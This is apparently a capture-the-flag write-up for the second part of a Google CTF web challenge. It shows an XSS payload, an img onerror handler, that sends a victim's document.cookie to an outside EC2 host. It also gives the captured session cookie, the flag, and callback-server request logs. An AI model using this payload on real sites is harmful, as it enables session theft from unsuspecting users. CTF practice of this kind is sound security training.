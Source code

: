 Time to brush off those XSS skills again in a new part of the page! Same
website as before

https://wallowing-wallabies.ctfcompetition.com/

----

Using the cookie gained in part 1 opens a messages tab that is injectable.

<img src ="#" onerror
="window.location='https://ec2-54-186-29-72.us-west-2.compute.amazonaws.com/cookie?c='
+ document.cookie;" />

Gives us this cookie

green-mountains=eyJub25jZSI6Ijg4NjZlYTljYjhhZWFiNGEiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vY2hhcmFjdGVycy4qJCIsImV4cGlyeSI6MTQ2MjA4MzE1MH0=|1462083147|9089e3b255f8a7099673f10503113c1960519d9e

Which yields this key on.

https://wallowing-wallabies.ctfcompetition.com/deep-blue-sea/team/characters

part 2: CTF{strict_contextual_autoescaping_to_solve_your_xss_woes}


Interesting results on web request from injection. The first request is from
ours. The second is from google.

```
### OUR REQUEST
Referer:
https://wallowing-wallabies.ctfcompetition.com/deep-blue-sea/team/vendors/msg
Content-Length:
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like
Gecko) Chrome/50.0.2661.75 Safari/537.36
Connection: keep-alive
Host: ec2-54-186-29-72.us-west-2.compute.amazonaws.com
Accept: image/webp,image/*,*/*;q=0.8
Accept-Language: en-US,en;q=0.8
Content-Type:
Accept-Encoding: gzip, deflate, sdch

[IP REMOVED] - - [01/May/2016 05:47:10] "GET /logo.jpg HTTP/1.1" 200 -



### THERE REQUEST
Referer:
http://ctf-wallowing-wallabies.appspot.com/under-the-sea/application/62674
Content-Length:
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like
Gecko) Chrome/48.0.2564.97 Safari/537.36
Connection: keep-alive
Host: ec2-54-186-29-72.us-west-2.compute.amazonaws.com
Accept: image/webp,image/*,*/*;q=0.8
Accept-Language: en-US,en;q=0.8
Content-Type:
Accept-Encoding: gzip, deflate, sdch

146.148.94.130 - - [01/May/2016 05:47:11] "GET /logo.jpg HTTP/1.1" 200 -
```
